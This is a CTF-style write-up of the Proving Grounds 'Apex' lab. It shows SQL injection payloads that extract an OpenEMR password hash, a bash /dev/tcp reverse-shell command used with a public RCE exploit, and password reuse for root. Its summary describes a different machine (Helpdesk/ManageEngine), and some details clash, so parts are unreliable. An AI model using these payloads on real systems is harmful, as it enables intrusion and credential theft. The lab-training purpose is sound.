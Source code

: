 ```yaml
---
layout: single
title: Apex - Proving grounds Practice
date: 2023-06-21
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - web
  - sqli
  - openemr
  - passwordcracking
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- ManageEngine allows us to access with the default credentials.
- Having a valid user, we are able to exploit CVE-2014-5301 and get a reverse shell as a privileged user.

### Detailed steps
------------------

### Enumeration

I started enumerating the open ports with:
```
nmap -Pn -p- 192.168.164.145
```
![nmap1](\assets\images\pg-practice-apex\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A 192.168.164.145 -p 80,445,3306 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-apex\2.JPG)

As we can see in the last picture, there is a web server, a mysql server and a smb server.
By accessing the website I was able to see a sanitary webpage. By clicking on `Scheduler` I could access to a login page.

![webpage1](\assets\images\pg-practice-apex\5.JPG)

This login page shows that we are in front of a `OpenEMR`
![webpage2](\assets\images\pg-practice-apex\6.JPG)

In order to find out the OpenEMR version, I found a common OpenEMR directory named 'sql' which was present in this server.
This directory stores sql files which are generated in the updates. Knowing this, we can deduce OpenEMR version (`5.0.1` in this case).
![webpage3](\assets\images\pg-practice-apex\80.JPG)

Also this directory contains some more interesting files as database.sql. This file shows the structure of the OpenEMR database.
![webpage4](\assets\images\pg-practice-apex\89.JPG)

### Explotation

This OpenEMR version is vulnerable to some `sql injections` we can find in the following report:
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

This image shows the vulnerable files:
![sqli](\assets\images\pg-practice-apex\81.JPG)

Trying to search for these files I was able to acces to "add_edit_event_user.php" so I worked with this file.
![sqli2](\assets\images\pg-practice-apex\83.JPG)

To make this job easier, I looked in the database.sql file mentioned above. I could find a table named 'user_secure' which contains usernames and passwords.
![sqli2_"](\assets\images\pg-practice-apex\91_2.JPG)

After some attemps, I found a valid query using "substring" which can extract half password hash:
![sqli3](\assets\images\pg-practice-apex\90.JPG)

Modifying this query I was able to get the other half (just replacing 1,32 by 32,60):
![sqli4](\assets\images\pg-practice-apex\92.JPG)
Querys:
```
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,1,32)FROM users_secure LIMIT 0,1)))
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,32,64)FROM users_secure LIMIT 0,1)))
```

Hash:
```
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC
```

I used this page to analyse the hash --> https://hashes.com/es/tools/hash_identifier
As we can see in the picture, we are in front of a `bcrypt $2*$, Blowfish (Unix)`
![hash1](\assets\images\pg-practice-apex\93.JPG)

Knowing the type of hash I cracked it with hashcat:
![hash2](\assets\images\pg-practice-apex\95.JPG)

Now, having this password I was able to log in successfully to the web portal as admin user:
![access](\assets\images\pg-practice-apex\96.JPG)
![access2](\assets\images\pg-practice-apex\97.JPG)


`OpenEMR 5.0.1` is also vulnerable to a remote code execution (authenticated). This means that at this point I could exploit it.

In order to gain access I downloaded a python exploit from: https://www.exploit-db.com/exploits/48515
Opening a netcat listener and executing this exploit with the following paramaters, I was able to catch the shell.
```
python2 45161.py http://192.168.164.145/openemr -u admin -p thedoctor -c "bash -c 'bash -i >& /dev/tcp/192.168.164.145/5555 0>&1'"
```
![shell](\assets\images\pg-practice-apex\101.JPG)
![shell2](\assets\images\pg-practice-apex\102.JPG)

Being www-data user I was able to find the user flag:
![flag1](\assets\images\pg-practice-apex\103.JPG)


### Privilege escalation

In order to elevate privileges I have been looking for a way for a while until I realised that I could use the previously obtained password again.
Just typing su root and using "thedoctor" as password I was able to log in as root and find the root flag.
![root](\assets\images\pg-practice-apex\227.JPG)
![flag2](\assets\images\pg-practice-apex\228.JPG)
